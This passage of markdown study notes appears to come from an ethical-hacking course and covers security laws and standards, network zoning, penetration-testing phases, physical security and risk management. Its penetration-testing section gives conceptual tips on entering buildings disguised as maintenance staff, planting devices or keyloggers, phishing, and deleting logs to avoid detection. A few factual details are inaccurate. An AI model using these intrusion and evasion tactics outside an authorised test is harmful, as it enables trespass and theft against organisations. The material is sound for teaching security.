  - For determining the status of information security management activities in an organization
  - For implementing business information security
  - For providing relevant security information to customers

### ISO/IEC 27002

- Titled as "Information technology – Security techniques – Code of practice for information security controls".
- Information security controls to enforce best-practices
- Includes controls for e.g. • Access Control • Cryptography • Access Control • Physical and environmental security...

## HIPAA

- Health Insurance Portability and Accountability Act
- 📝 Provides data privacy and protection of medical information.
- Specifies administrative, physical, and technical protection for all entities involved.
- 🤗 Initially created to protect people from losing their health insurance e.g. when changing jobs.
  - Extended to reduce costs and administrative burdens of healthcare transactions.

### HIPAA transactions

- **Healthcare transaction**
  - A transaction is an electronic exchange of information between two parties to carry out financial or administrative activities related to health care
  - Usually represented by claims and enrollment data
  - E.g. a health care provider will send a claim to a health plan to request payment for medical services.
- 📝 **Standard transactions**
  - Adopted standard by HSA (U.S. Health & Human Services) under HIPAA
  - Include • payment and remittance advice • claims status • eligibility • premium payment • enrollment and disenrollment • referrals and authorizations.

### HIPAA rules

- **Electronic transaction and code sets standards**
  - Every provider who performs electronic transactions needs to use the same health care transactions, codes, and identifiers.
- **Security rule**
  - Ensures the confidentiality, integrity, and security of health information
- **Enforcement rule**
  - Details provisions in regard to the compliance, investigations, violations, and hearing procedures.
- **Privacy rule**
  - Protects a person's health information and defines who has the access to the information.
  - Controls include
    - **Administrative safeguards** such as • performing risk analysis • employee training • security policies and procedures • business associate agreements
    - **Physical safeguards** such as • access controls • policies for workstations (e.g. laptops) • workstation security
    - **Technical safeguards** such as • access control • audit control • integrity control • transmission security
- 📝 **National identifier requirements**
  - **National Provider Identifier (NPI)**: A 10-digit number used for covered healthcare providers
  - **National Health Plan Identifier (NHI)**: An identifier that is used for identifying health plans.
  - **Employer Identifier Standard**: A number that identifies employers on standard transactions.

## FISMA

- Federal Information Security Management Act
- 📝 US legislation that regulates federal data security standards and guidelines.
- Protects government information, operations and assets against various threats.
- Provides
  - Standards for
    - categorizing information and information systems by mission impact
    - minimum security requirements for information and information systems
  - Guidance for
    - choosing appropriate security controls for information systems
    - assessing security controls in information systems
    - the security authorization of information systems

### NIST SP 800-53

- Shorthand for National Institute of Standards and Technology Special Publication 800-53
- 📝 Security and privacy controls for federal information systems and organization
- Guidelines to assist in [FISMA](#fisma) compliance

## Sarbanes-Oxley act

- Also known as **SOX** or **Sarbanes Oxley** act.
- US federal law
- Protect investors by making corporate disclosures more reliable and accurate
- Regulates what records organizations must keep and for how long
- E.g. banks need to save financial reports for a very long time
- The act contains 11 titles
  1. Public company accounting oversight board
  2. Auditor independence
  3. Corporate responsibility
  4. Enhanced financial disclosures
  5. Analyst conflicts of interest
  6. Commission resources and authority
  7. Studies and reports
  8. Corporate and criminal fraud accountability
  9. White-collar-crime penalty enhancement
  10. Corporate tax returns
  11. Corporate fraud accountability

## DMCA

- Digital Millennium Copyright Act
- Copyright laws in the USA
- Implements
  - WIPO (World Intellectual Property Organization) Copyright Treaty
  - WIPO Performances and Phonograms Treaty
- Against theft of intellectual property
- E.g. platforms must act as they can not benefit from what is yours, most platforms have copyright notice that you can issue.
- Act contains five titles:
  1. WIPO Treaty Implementation
  2. Online Copyright Infringement Liability Limitation
  3. Computer maintenance or repair
  4. Miscellaneous provisions
  5. Protection of certain original designs

## COBIT

- Framework created by ISACA for information technology (IT) management and IT governance.
- Helps companies follow law, be more agile and earn more.
- Links business and IT.
- Ties in with COSO, ITIL, BiSL, ISO 27000, CMMI, TOGAF and PMBOK.
- Defines processes for the management of IT
  1. Evaluate, Direct and Monitor (EDM)
  2. Align, Plan and Organize (APO)
  3. Build, Acquire and Implement (BAI)
  4. Deliver, Service and Support (DSS)
  5. Monitor, Evaluate and Assess (MEA)
- Components include
  - **Framework**: Link IT objective and best practices to business requirements.
  - **Process descriptions**: Process model to build common language for planning, building, running and monitoring.
  - **Control objectives**: High-level requirements to be considered by management.
  - **Management guidelines**: Helps assign responsibility, agree on objectives, measure performance, and illustrate interrelationship with other processes.
  - **Maturity models**: Assesses maturity and capability per process and helps to address gaps.

## EU Laws

### SCCs

- Standard Contractual Clauses
- Contract between an EU based data exporters and a non-EU-based data importers
- Protects personal data sent from the European Union (EU) to countries with lower level of data protection rights
- Ensures [GDPR](#gdpr) requirements in territories which are not considered to offer adequate protection to the rights and freedoms of data subjects

### EU–US Privacy Shield

- Also known as **PrivacyShield**
- Framework for regulating exchanges of personal data for commercial purposes between the European Union and the United States
- Enables US companies to more easily receive personal data from EU entities
- Became invalid in 16 July 2020 as it did not protect EU citizens on government snooping

### Safe Harbor

- Also known as **International Safe Harbor Privacy Principles**, **Safe Harbour Privacy Principles**, **Safe Harbour decision**
- Signed between US and EU to prevent customer data leakage from private organizations
- Seven principles include: notice, choice (can opt out), onward transfer (only share with compliant companies), security, data integrity, access (can be accessed and deleted by individuals), enforcement
- Abolished in October 2015 and replaced with [EU–US Privacy Shield](#euus-privacy-shield)

### GDPR

- Regulates data processing of EU citizens
- Applies in EU and outside of EU if personal data is collected from EU
- Requires consent to collect data
- **Privacy by design**: Enforces privacy and security measures
- Gives rights such as: • right to be informed • right of access • right to rectification • right to erasure (right to be forgotten) • right to restrict processing • right to data portability • right to object • right in relation to automated decision making and profiling.

### Common Criteria

- Also known as **ISO/IEC 15408**
- Standard for computer security certification
- Tests to evaluate vendor claims of security about its products
- Four aspects to the of evaluation
  - **TOE**: the system being tested
  - **ST** (security target): he documentation describing the TOE and requirements)
  - **PP** (protection profile)
    - The requirements for the type of product being tested)
    - The evaluation assurance level (EAL, the rating level, ranked from 1 to 7).

## Other laws, standards and regulations

- **RFC 1918**: Private IP Standard
- **RFC 3227**: Collecting and storing data
- **CAN-SPAM act**: Email marketing
- **GLBA**
  - Gramm-Leach-Bliley Act
  - Requires financial institutions to take steps to protect customer information
- **FERPA**: Education Records
# Network security

## Network security controls

- Include: Access control, Identification, Authentication, Authorization, Accounting, Cryptography, Security Policy

### Access control

- Restrictions that determine who has access to what on a system/network.
- **Physical access control**
  - Restricts access to physical locations and buildings.
- **Logical access control**
  - Restricts the access to networks and information.
- Terminology
  - **Subject** = Who's reaching, user or process which accesses the objects
  - **Object** = What's being reached, resources upon which the restrictions are placed
  - **Operation** = Verb, What's being done, the action performed by the subject on the object
  - **Reference Monitor** = implements the rules which define what actions on the object can a subject perform
- Involves
  - **Identification**: unique identity in any given system
    - There are your credentials
    - e.g. social security number, username and password.
  - **Authentication**
    - You're granted access via credentials
    - You use the credentials
  - **Authorization**:
    - What you can access, where you can go, can you park somewhere
  - **Accounting**
    - Act of logging and creating account of all actions, what has been done.

## Network security zoning

- Grouping networks for efficient management of networks.
- Any network has physical firewalls (routers) which has software to act as firewall and control the traffic
  - However it's hard to manage each network instead best to group them in zones and apply rules in that zone.

### Security zone

- Group of similar people or systems by characteristics e.g. functionalities to apply same rules.
- Properties include:
  - Active security policies in regard to the network traffic
    - E.g. to implement the policy "secretaries cannot reach twitter", can block those sites through firewall rule in their zone
  - Detection and blocking of malicious traffic
    - Software needs to actively scan and label what's malicious or not and stop malicious traffic
  - List of known IP addresses and address sets
    - IP address of device and interface are different
  - List of the zone interfaces
- A device or an interface can can have multiple IP addresses
  - E.g. wired connection has one interface, another interface to connect to DB
  - **Maintenance interface**
    - Last resort to fix stuff
    - Usually no security boundaries/guards on those interfaces
    - Must have physical security
    - E.g. someone goes in to server room in cold jacket codes, plugs in a laptop and uses maintenance interface to fix something.

### Zone examples

- **Internet zone**
  - Uncontrolled zone out of boundaries of an organization.
- 📝 **DMZ Zone**
  - Controlled zone.
  - Also known as demilitarized zone
  - Provides a barrier between the external and internal networks.
  - Included in every router.
  - Uses firewalls control what can go in and out.
- **Production zone**
  - Restricted zone.
  - Firewalls are used to filter inbound and outbound traffic
  - Access from uncontrolled networks is strictly controlled.
- **Intranet zone**
  - Controlled zone with less restrictions
- **Management zone**
  - Secured zone which enforces strict policies and limits access to a few authorized users.
# Penetration testing phases

## 1. Pre-Attack Phase

- Planning
- Preparation
- [Reconnaissance](./hacking-stages.md#1-reconnaissance)

### Contracts

- Ethical hackers proceed only after an agreement is in place—to protect both parties.
- **Non-disclosure agreement**
  - Also known as **NDA**
  - 📝 Prohibits you from sharing your findings
- **Penetration testing contract**
  - Should include all information and requirements that the penetration tester needs.
  - Ensures the tester won't be sued or prosecuted and can legally perform an attack.
    - as damage can incur during penetration testing
- 💡 Good idea to go through those with a lawyer.

#### Rules of Engagement (ROE)

- Formal document that gives permission to perform a penetration test.
- 📝 Guideline for testers and as such should clearly state what is and isn't allowed
- E.g. which IP addresses should be tested, which hosts are not to be tested, which techniques, time frame when test can take place etc.
. E.g. ok with SQL injection tests and brute force attacks but no DDoS attacks to not have service disruption or to not have network costs.
- 🤗 Used also by armies, e.g. US army cannot fire on somebody unless they're firing on them.

### Understanding the clients requirements

- Pen-tester needs to understand the client's requirements.
  - 💡 Also make sure client understands that themselves as well as they may not understand what they're asking you to do
- Important for testers reputation and clients satisfaction.
- 💡 Create checklists.
  - Make suggestions
  - Ensure everything is clear without loose ends
  - Best to be clear as changing something during testing is not good as it would postpone the deadline and cost more for the client.

### Defining the scope

- Ensures that requirements are fulfilled, and objectives are met.
- Objectives should be determined first e.g.
  - **Deliverables**: Different reports and often a final report where all results are placed and documented.
  - **Functionality**: Verifies the system you're pen-testing is working as intended
  - **Technical structure**: Design of the whole project
  - **Data definition**
- Defines areas/parts of the system that'll be tested e.g.:
  - Network security
    - E.g. check routers for faulty configurations, outdated operative systems.
  - System software security
  - Client-side application security
  - Client-side to server-side communication security
  - Server-side application security
  - Document security
  - Physical security
    - E.g. how are people tracked? How is access granted and controlled? How are the access policies enforced?
  - Application communication security
  - [Dumpster diving](./../10-social-engineering/social-engineering-types.md#dumpster-diving)
  - Insiders
  - Sabotage intruder confusion
  - Intrusion detection
  - Intrusion response
  - Social engineering

### Information gathering

- To goal is to gather as much information about the target as possible
- Information is used to map out the target's network and plan the attack.
- See also [Reconnaissance | Hacking stages](./hacking-stages.md#1-reconnaissance) and [Footprinting](./../02-footprinting/footprinting-overview.md)
- Information can include
  - **Physical and logical locations**
    - e.g. for servers
  - **Analog connections**
    - E.g. phones, GSM networks
    - 🤗 You can create your own cellphone tower and take over their connections as you'll have the strongest signal.
  - **Contact information**
    - E.g. sitting in a near coffee to take photos and take names. You can then look at their contact information in list of employees (if publicly available somewhere). They become suspectable to social engineering.
  - **Information about other organizations**
    - 🤗 E.g. You can come with a rack suit to fix air-conditioning devices and say "hey there's a problem in air conditioning on floor 14" or "regular maintenance" or "one of your devices is due.". A security personal mey escort you but he won't watch everything carefully, you can place a Raspberry Pie and connect it to electricity. Refer to the following video: [Sneaking in EVERYWHERE for FREE (Yellow Vest Experiment)](https://www.youtube.com/watch?v=GyvRamX1VyA)
      - Stupid and simple. Something too complex has higher risks of not working as the dumber it is, the simple it is, it'll probably work.

## 2. Attack phase

- Phase where target gets compromised.
- Information gathered in the previous one is used to carry out an attack.
- Steps
  1. [Penetrate the perimeter](#a-penetrating-the-perimeter)
  2. [Acquire target](#b-target-acquisition)
  3. [Escalate privileges](#c-privilege-escalation)
  4. [Execute, implant, retract](#d-execute-implant-retract)

### a. Penetrating the perimeter

- Trying to bypass IDS (Intrusion Detection System) and firewall
- A way is to use social engineering to test out the boundaries and find a way into the system.
- **Firewall testing** techniques include
  - ICMP probes
  - Checking access control
  - Evaluating protocol filtering rules
  - Evaluating IDS
- Probing allow you to see what the perimeter detects & drops & won't detect
  - You can craft own packets and see the reactions
    - e.g. by modifying source/destination IPs
  - E.g. check if certain port always drops, maybe port is open but only goes through the VPN where employees access network.
- Figure out what devices are running under perimeter to select as a target.
  - **Enumerate devices** collecting:
    - ID of the device
    - Description
    - Hostname
    - Physical location
    - IP and MAC address
      - 🤗 MAC address lets you know who the manufacturer is. Manufacturer information can give you idea of what kind of OS they run. You might get what devices they are running and how they are shipped. You can go to the distributor and put some physical keyloggers or sniffers e.g. a Raspberry Pi into a large router/switch.
  - By cross checking them later again, it is possible to identify unauthorized devices.

### b. Target acquisition

- Done after scanning and penetrating of the perimeter and selecting a target machine/device
- Involves vulnerability scans to find vulnerabilities which can be later exploited
- 📝 Includes:
  - **Active probing assaults**
    - Scanning the network and gathering more information
  - **Running vulnerability scans**
    - Completing vulnerability scans to see what vulnerabilities that the target has.
  - **Attempt to access services and obtain data**
    - Trusted systems and trusted process assessment
    - Trying to access the resources on the system using the credentials obtained during the information gathering process
      - E.g. using credentials that you have obtained through social engineering or general research of the company/system
    - You attempt to access and extract as much as data as you can
    - Pick-locking: try to unlock it in every possible way

### c. Privilege escalation

- 📝 Done once the access to the system is granted
- Goal is to grant elevated access.
- Techniques include
  - **Password crackers**
    - E.g. bruteforce, dictionary-based attack
  - **Exploit vulnerabilities in a code** e.g.
    - Poorly written security policies
    - False code in the code / applications
    - Web app version is not updated, there's a vulnerability in this version
    - Use flaws in a system e.g. older version of OS.
  - **[Trojans](./../07-malware/trojans.md)**
  - **[Social engineering](./../10-social-engineering/social-engineering-overview.md)**
    - E.g. you realized that there's no strict policy regarding e-mails. You send an e-mail for phishing scheme, gain more information when the person clicks on that link, you can then execute arbitrary code if e-mail client is old (unlikely).
    - E.g. phone-call and ask what you need: works way more than it should
- 🤗 A lot of companies have state-of-the-art perimeter
  - inside perimeter they have very old equipment and OS
  - they don't emphasize much on security interior as they do in external
    - once you pass the perimeter, you're more likely to find something inside
- Defenses include
  - Running services with the least privileged accounts
  - Implementing [multi-factor authentication/authorization](./identity-access-management-(iam).md#multi-factor-authentication-mfa)

### d. Execute, implant, retract

- Involves compromising the system with code.
- Techniques include
  - [DoS, DDoS attacks](./../13-web-applications/denial-of-service.md)
  - buffer overflows to execute arbitrary code.
  - using [viruses](./../07-malware/viruses.md), [trojans](./../07-malware/trojans.md), rootkits
  - installing [backdoor](./../07-malware/malware-overview.md#backdoor)s
- Retract means being able to exit without leaving any traces behind
  - Traces left behind can cause suspicions and in effect vulnerablities would be patched and you cannot gain access to the target machine back using the same method.
  - Delete all the logs that indicates you existed to ensure persistent remote access.
  - Good idea is to figure out their antiviruses, and test your execution in a VM with same antivirus and security measures to not get detected by a random scan.
  - If alarm is raised, you might be detected, put it in the report and result of whether the flag was investigated.

## 3. Post-attack phase

- The tester restores the system to the pretest state.
- ❗Don't leave your stuff be it accidentally or on purpose as it breaks the law either way.
  - Examples
    - Delete any malware/rootkit installed
    - Recover all files that were deleted
    - Reverse any elevated privileges.
    - Restore network settings to its original state
    - Remove created vulnerabilities and exploits
- Documentation / clear log of activities, results and security flaws.
# Penetration Testing

- Simulating of an security attack to
  - discover vulnerabilities (and document)
  - evaluate the security
- Detailed analysis of weaknesses in design, technical flaws, and vulnerabilities in organizations information security.
- E.g. • [phishing](./../10-social-engineering/social-engineering-types.md#phishing) • [testing authentication](./../13-web-applications/hacking-web-applications.md#authentication-attacks) using [dictionaries](./../06-system-hacking/cracking-passwords-overview.md#dictionary-attack) • test if router is using an [obsolete OS](./security-threats-and-attacks.md#operating-system-attacks)

## Purpose

- Identify threats
- Reduce security expenses
  - E.g. you can recommend cheaper router and switches that'll be enough for their capacity and still secure.
  - **ROSI = Return on security investment**
    - E.g. you'll save company for 100% payback if they implement anti-junk system and junk e-mails cost more to the company.
- Provide complete security assessment
- Maintain industry standards and regulations
- Follow best practices
- Test security controls
- Improve current security infrastructure
- Pay particular attention to severe vulnerabilities
  - E.g. explain what one single vulnerability can lead to what kind of damage.
- Prepare steps for preventing exploitations
- Test network security devices

## Activities for a good penetration test

- Defining the penetration test parameters
  - States what pen-tester can do and cannot do.
  - Have both signed.
- Engaging skilled penetration testers
- Following non-disclosure agreement
  - Companies don't want to work with someone with bad reputation, e.g. who broke NDA before.
- Selecting appropriate tests
  - Done by the company and the pen-tester together
  - Find cost/benefit ratio of tests
- Using and following a [methodology](#security-testing-methodology)
  - 💡 Good to test for all known vulnerabilities to save time and make documentation easier.
- Documenting the results of the test
- Creating a final report

## Audit vs Vulnerability Assessment vs Penetration Test

### Security audit

- Compliance = Inspects if an organization is following security standards and policies.
- E.g. interviewing staff, vulnerability scans, reviewing access controls, analyzing physical access.
- Often [blue/red teaming](#blue-and-red-teaming) approach is used by penetration testers.

### Vulnerability assessment

- Finds the vulnerabilities in the network
- Will not state if they're exploitable, nor the potential harm

### Penetration test

- Includes both [security audit](#security-audit) + [vulnerability assessment](#vulnerability-assessment)
- Discovers vulnerabilities in a system and evaluates its security
- Demonstrates how attackers can exploit the identified vulnerabilities.
- Tells you what measures should be taken to prevent the vulnerabilities.

## Blue and red teaming

- Two teams in company, or sometimes outside of the company who battles against each other.
- Similar to capture the flag contest, red is aggressor, blue protects.
- More cost-efficient then hiring an external company to do full penetration testing.
- **Blue team**
  - Defender: Detects attackers (red team) and predict possible attacks.
  - Has full access to the system to analyze the security.
- **Red team**
  - Attacker: Finds vulnerabilities in the system and penetrates to examine what real attackers could do.
  - Has no access to the system
- **Purple team**
  - Both worlds
  - Both attacks and also repairs/suggests improvements

## Types of penetration testing

- Consists of [white box](#white-box-testing), [black box](#black-box-testing) and [grey box](#grey-box-testing) testing.
  - 💡 The darker the box is the more credible test results and the higher the costs are. As going from nothing to something as opposed to something to nothing would simulate real-world hacks but would take more time.
- 📝 Each type can be
  - Announced vs. Unannounced
    - **Announced testing**
      - IT team are aware of security being tested.
      - Often it occurs when testing a specific segment where IT admins give you access to test different components.
    - **Unannounced testing**
      - IT team is unaware of the security being tested
  - Internal vs External
    - **Internal**
      - Targets assets within an corporate network
    - **External**
      - Targets internet-facing assets such as web, mail and FTP servers.

### Black box testing

- Also called ***zero-knowledge Testing***, ***blackbox testing*** or ***black-box testing***
- 📝 Testers have very little information about the client's infrastructure.
- The goal is to simulate an external hacking or cyber warfare attack.
- provides a very realistic scenario for testing of the defenses
- Can be costlier as it takes much more time to conduct.

#### Blind testing

- Tester has little information to none about target.
- Target itself (e.g. system administrator) knows about the test and its scope.
- Demonstrates what a real attacker would do.

#### Double-blind testing

- Also called **zero-knowledge approach**
- Neither the pen-tester nor the target knows anything about each other.
- Good & reliable results
- Most difficult, time-consuming and expensive to perform.

### Grey box testing

- Also called ***greybox testing***, ***grey-box testing***, ***gray box testing***, ***graybox testing***, ***gray-box testing***
- 📝 Tester has partial knowledge i.e. knowledge of the internal workings is limited.
- Combination of black box and white box testing.
- Helps to reduce the cost of the test by gaining knowledge that would be harder to gain otherwise.

### White box testing

- Also called ***Complete-Knowledge Testing***, ***whitebox testing*** or ***white-box testing***
- 📝 Tester knows the company inside out
  - fully aware of the network, infrastructure policies.
  - e.g. ap of the subnets, ruling list of firewalls, intrusion detection system details.
- Cost-effective and can be good when testing a single component

## Security testing methodology

- Approach to attempt to find vulnerabilities in the system's security mechanisms.
- Used during e.g. [security audit](#security-audit), [vulnerability assessment](#vulnerability-assessment) and [penetration test](#penetration-test).
- 💡 Using a good security testing methodology provides a repeatable framework

### Proprietary methodologies

- Usually done by security companies who offer pen testing services and as such are kept confidential.
- Includes
  - **IBM**
    - Good for mid-sized companies
    - Gives fast result without much effort
  - **McAfee Foundstone**
    - Used mainly in enterprises.
    - Anything that's custom not generic has big chance of slipping through
  - **EC-Council LPT**
    - Auditing framework

### Open-source Methodologies

- Publicly available and can be used by anyone

#### OWASP (Open Web Application Security Project)

- Online community, produces freely-available articles, methodologies, documentation, tools, and technologies in the field of web application security
- Produces Top 10 lists of the most common vulnerabilities and how to fix them.
  - E.g. • [Web Application Top 10 threats](./../13-web-applications/owasp-top-10-threats.md) • [Docker Top 10](./../16-cloud-computing/container-security.md#owasp-docker-top-10) • [Top 10 Mobile Threats](./../17-mobile-platforms/mobile-attack-vectors.md#owasp-top-10-mobile-threats)
- Good for developers and system architects (anyone working with coding/application)

#### OSSTMM (Open Source Security Testing Methodology Manual)

- Open-source security testing methodology manual
- Standard set of penetration testing tests
  - Attempt to standardize pen-testing and making consistent
- Defines three types of compliance:
  - **Contractual**: requirements enforced by an industry or non-government group.
  - **Legislative**: regulations enforced by the government.
  - **Standards based**: actions that are recommended and must be adhered to in order to be certified by a group.

#### ISSAF (Information Systems Security Assessment Framework)

- Like an instruction manual "how to conduct a pen-test"

#### NIST (National Institute of Standards and Technology)

- Federal technology agency
- Applies a lot of standards to comply.
- They do much research and publish most.
- E.g. • [NIST SP 800-53](./laws-standards-and-regulations.md#nist-sp-800-53) • [NIST definition of cloud computing](../16-cloud-computing/cloud-computing.md#nist-definition-of-cloud-computing)
# Physical security

- The protection of all assets of an organization from all sorts of threats and attacks.
- Helps in
  - Preventing unauthorized access to the system
  - Preventing any kind of data manipulation and theft
  - Protecting the system against malicious activities such as espionage, damage and theft
  - Protecting employees and preventing social engineering attacks
- Categories
  - **Natural or environmental threats**
    - E.g. flood, fire, earthquake, dust
  - **Man-made threats**
    - E.g. Terrorism, wars, explosions, [dumpster diving](./../10-social-engineering/social-engineering-types.md#dumpster-diving) and theft, vandalism.
- See also [Physical security | Social engineering](./../10-social-engineering/social-engineering-overview.md#physical-security)

## Types of physical security controls

### Preventive controls

- Implemented before a threat event to reduce or avoid its impact.
- Includes access control mechanisms to prevent access
- Can be **technical** e.g.
  - Firewalls
  - Authentication systems.
- Can be **administrative** e.g.
  - Security policies
- 📝 Can be **physical** e.g.
  - Fire extinguishers
  - Doors e.g.
    - **Mantrap**
      - Also known as air lock, sally port or access control vestibule
      - Has two doors, each door requiring a separate form of authentication to open
    - **Turnstile**
      - Also known as a turnpike, baffle gate, automated gate
      - Allows one person to pass at a time, can enforce one day direction
      - Can require a a coin, a ticket, a pass, or similar
      - E.g. in train stations
  - **Bollard**
    - Sturdy, short, vertical post
    - Used for control road traffic and posts
    - Allows to prevent ram-raiding and vehicle-ramming attacks.
    - 🤗 Used initially for mooring boats

#### Static electricity

- Low humidity can cause a buildup of static electricity.
  - Leads to corrosion of the components could.
  - 💡 Keep humidity level between 45% and 55%.
- Grounding systems help
  - E.g. antistatic wrist straps are designed to ground people appropriately
  - Provides somewhere for any latent static electricity generated to flow.

### Detective controls

- In place to let you know when something has happened or is happening.  
- Detects violations and intrusion attempts for investigation.
- E.g. • audit trails and logging • alarm systems • sensors • video surveillance • motion detectors.

### Deterrent controls

- Also known as **deterrence controls**
- Warns intruders to stay away
- E.g. signs showing • "Be aware of the dog" • "Under surveillance" • "Authorized personal only"

### Recovery controls

- Used after violation has happened to restore the system to its persistent state
- E.g. backup systems and disaster recovery

### Compensation controls

- Do not prevent attacks, used when everything else fails
- Goal is to restore everything back to normal
- E.g. when there's power shortage you need a grid, alternative energy backing: generators, batteries..

## Physical security measures

- Secure premises and company surroundings
- Secure the reception area
- Lock servers and workstations when not in use
- Lock devices such as modems, removable media, and fax machines when not in use
- Implement access control
- Regularly maintain computer equipment
- Prevent wiretapping
- Monitor the environment by checking the humidity and temperature
- Positive pressure is great at keeping contaminants (e.g. dust, dirt) out of the data center
# Risk management

- Ongoing process of identifying, assessing and acting on potential risks.
- ❗📝 Risk management controls reduce risks but one can never fully eliminate all risk
  - Nothing is 100% risk-free.

## Risk

- **Risk**
  - Threat of damage or loss
- **Risk mitigation**
  - Also known as **risk reduction**
  - Taking action to reduce an organization's exposure to potential risks and reduce the likelihood that those risks will happen again.
- 📝 **Risk equation**
  - `Risk = Threat x Vulnerability x Asset`
  - E.g. network is very vulnerable (no firewall), asset is critical: high risk.
  - E.g. network is well protected, asset is critical: medium risk
- 📝 **Likelihood**
  - Likelihood is how probable it is that an event will occur
- 📝 **Impact**
  - Estimate of the harm that could be caused by an event

### Types of risks

- 📝 **Inherent risk**
  - Represents the amount of risk that exists before any controls are taken.
  - Raw and untreated risk
- 📝 **Residual risk**
  - Amount of risk that remains after controls are accounted for.
- **Control risks**
  - Risks that occur due to weaknesses in internal controls
- **Audit risk**
  - Risk of error while performing an audit.
  - Three types: Control risk, detection risk, inherent risk
- **Detection risk**
  - Verifier does not detect a material misstatement

### Level of risk

- Defined based on events possible consequences to evaluate.
- **Level of risk equation**
  - `Consequence x Likelihood`

  | Risk Level | Consequence | Action |
  | ---------- | ----------- | ------ |
  | **Extreme / high** | Serious danger | Measures should be immediately taken to reduce the risk |
  | **Medium** | Medium danger | Measures should be taken as soon as possible |
  | **Low** | Negligible danger | Preventive measures should be taken to mitigate the risk |

### Risk matrix

- Used to visualize risk probabilities and its consequences
- Most used method in risk analysis
- 

### Risk assessment

- 📝 Prioritizes risks based on severity and likelihood of occurrence
- 📝 Includes an analysis of threats based on the impact to the business
- E.g. [HIPAA security risk assessment tool](https://www.healthit.gov/topic/privacy-security-and-hipaa/security-risk-assessment-tool) to assess risks regarding: • administrative safeguards • technical safeguards • physical safeguards as defined in [HIPAA rules](./laws-standards-and-regulations.md#hipaa-rules).
- 💡 Risk assessor should be a trusted entity or contractor
  - As they'll receive detailed vulnerability information and security architecture information

## Risk management objectives

- Identify the potential risks
- Identify the impacts of those risks
- Create risk management strategy and plan
- Assign priorities to risks
- Analyze the risks
- Control the risk
  - e.g. education, enforcing a policy, changing a software etc..
- Develop strategies and plans for long lasting risks

## Risk management phases

1. 📝 **Identification**
   - What? Why? Consequences?
   - Data gathering activities include • threat identification • vulnerability identification • risk control analysis
     - Read more [NIST SP 800-39 (NIST Cybersecurity Framework)](https://www.nist.gov/privacy-framework/nist-sp-800-39)
2. **Assessment**
   - Likelihood and impact
3. **Treatment**
   - Prioritize, order and document.
   - Manage risks through [risk response types](#risk-responses)
4. **Tracking and review**
   - Ensures right actions were taken.
   - Is action obsolete? Can it be improved? Can cost be decreased?

## Risk responses

- 📝 5 risk responses are: • Avoid • Mitigate • Transfer • Accept • Share
- **Avoid**
  - Change the strategy/plan to avoid the risk.
- **Mitigate**
  - Take action to reduce the risk.
  - 💡 You should mitigate the risk to a low enough level so that the residual risk can be accepted as you will never be able to remove all risks.
- **Transfer**
  - Transfer risk to another party by e.g. outsourcing or purchasing an insurance.
- **Accept**
  - Decide to take the risk, as without risk there's no movement/rewards.
- **Share**
  - Distributing the risk, e.g. having two security architects so service can continue if one quits.

## Business continuity and disaster recovery (BCDR)

1. **Risk assessment**
   - Preparing risk analysis and business impact analysis
   - See also [risk assessment](#risk-assessment)
   - E.g. **Disaster recovery risk assessment**
     - Describes potential risks and their impact to the functioning of an organization.
     - Describes both natural and man-made disasters and estimates the probability of each scenario occurring
   - **Business impact analysis (BIA)**
     - Predicts the consequences of disruption of a business function
     - Process and gathers information needed to develop recovery strategies
     - Often includes [Annualized Loss Expectancy (ALE)](#annualized-loss-expectancy-ale) metrics.
     - Should be used identifying the potential consequences of a change, or estimating what needs to be modified to accomplish a change
     - 📝 **Business change impact analysis**
       - Allows you to identify consequences of a change
       - E.g. a new feature can cause resource load and crash the server.
2. **Business continuity plan (BCP)**
   - Covers critical processes recovery
   - 📝 Includes **Disaster recovery plan (DRP)** describing:
     - How an organization can quickly resume work after an unplanned incident
     - What to do to recover

## Annualized Loss Expectancy (ALE)

- Annual cost of a loss due to a risk.
- Used often in risk analysis and business impact analysis
- 📝 `ALE = ARO (Annual rate of occurrence) x SLE (Single loss expectancy)`
- **Annual rate of occurrence (ARO)**
  - E.g. if it occurs every month than it's 12, if it's every second year than it's 1/2
- **Single loss expectancy (SLE)**
  - Total loss value for a single asset after an exploit
  - `SLE (Single Loss Expectancy) = AV (Asset Value) x EF (Exposure Factor)`
  - **Asset value (AV)**
    - How much would it take to replace 1 asset
    - Including product prices, manhours etc.
  - **Exposure Factor (EF)**
    - Percentage of asset value lost if threat is realized
    - Usually a subjective value
- E.g. an asset is valued at $100,000, and the Exposure Factor (EF) for this asset is 25%. The single loss expectancy (SLE) then, is 25% * $100,000, or $25,000.
- **Total cost of ownership (TCO)**
  - Total cost of a mitigating safeguard
- **Return on Investment (ROI)**
  - Amount of money saved by implementing a safeguard.
  - 💡 Good choice if annual Total Cost of Ownership (TCO) is less than Annualized Loss Expectancy (ALE); poor choice otherwise

## Threat modeling

- Assessment to see how secure an application is
  - identify the threats
    - can e.g. use [OWASP top 10](https://owasp.org/www-project-top-ten/) as guideline.
  - discover application vulnerabilities
  - improve security
    - e.g. configure in better way, improve source code, enable encryption or ditch the application.
- 💡 Do it as soon as and often as possible
  - E.g. by design phase of the software security development lifecycle (SDL) process

### Threat modeling steps

1. **Identify security objectives**
   - Understand your integrity, confidentiality, and availability goals
2. **Application overview**
   - Understand application and its components (libraries and services), data flows and trust boundaries.
3. **Decompose application**
   - Document what each component does, entry and exit points, data flows and trust boundaries.
4. **Identify threats**
   - Done for each individual components
   - E.g. a misconfiguration (e.g. bad password policy, outdated encryption)
5. **Identify vulnerabilities**
   - End with vulnerabilities, overall assessment, prioritization of risks.

## Security Development Lifecycle (SDL)

- Set of guidance, best practices, tools, and processes by Microsoft
- Consists of different phases with different actions on each phase:
  1. **Training**
     - Core security training for developers
  2. **Requirements**
     - Setting level of security desired
  3. **Design**
     - [Threat modeling](#threat-modeling)
     - Attack surface analysis
     - Requirements
  4. **Implementation**
     - Static analysis
     - Turning off unsafe functions
  5. **Verification**
     - Dynamic analysis
     - [Fuzz testing](./../14-sql-injection/sql-injection-overview.md#fuzz-testing)
     - Attack surface reviews
  6. **Release**
     - Incident response plan
     - Final security review
     - Certification
  7. **Response**
     - Allow reporting security problems in products
# Security policies

- Rules and requirements that the system has to have to achieve information assurance.
- Defines everything about your layout for the employees
- Written documents including
  - Lists of allowed hardware and software
  - Locations for related policies and procedures
  - Exceptions i.e. exemption rules
  - Sanctions for noncompliance e.g. disciplinary actions/punishment/termination
  - ...
- Types
  - **Technical policies**: define the system configuration
  - **Administrative policies**: define the behavior of employees
- Mitigates risks, prevents something costly from happening.
- E.g. a good policy is NDA, distributed and cannot be repudiated (signed)

## Policy types for risk tolerance

- 📝 From most permissive to most strict
  1. [Promiscuous](#promiscuous-policy): No restrictions
